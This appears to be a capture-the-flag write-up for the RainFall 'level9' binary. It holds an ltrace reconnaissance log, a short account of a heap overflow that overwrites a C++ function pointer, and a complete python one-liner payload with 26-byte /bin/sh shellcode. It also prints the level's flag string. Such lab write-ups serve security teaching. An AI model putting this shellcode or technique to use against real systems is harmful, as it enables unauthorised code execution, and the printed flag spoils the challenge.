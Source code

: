 level9:c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

# Reconnaissance

C++ code
expects an argument

```shell
level9@RainFall:~$ ltrace ./level9 AAAA
__libc_start_main(0x80485f4, 2, 0xbffff7f4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330)                                        = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)                                                     = 0
_Znwj(108, 0xbffff7f4, 0xbffff800, 0xb7d79e55, 0xb7fed280)                                                                = 0x804a008
_Znwj(108, 5, 0xbffff800, 0xb7d79e55, 0xb7fed280)                                                                         = 0x804a078
strlen("AAAA")                                                                                                            = 4
memcpy(0x0804a00c, "AAAA", 4)                                                                                             = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c)                                                   = 0xb7fce4a0
+++ exited (status 11) +++
```

With ltrace, we notice that the function copies the entire first argument at `0x0804a00c`

We notice that we have an offset 108, we have to insert an address which point a shellcode
The overflow happends on the second object, on a function pointer attribute.

# Exploit

We have to overwrite the function pointer with an address to our shellcode, lets just point to the beginning of the buffer
where our argument is copied. Our argument must start with the address to the beginning of our shellcode, which is 4 bytes after.

payload => (`0x0804a00c` + 0x4) + (shellcode 26 bytes long) + padding + `0x0804a00c`
108 - (4 + 26) = 108 - 30 = 78 paddings bytes

payload = `$(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80" + "A" * 78 + "\x0c\xa0\04\x08"')`
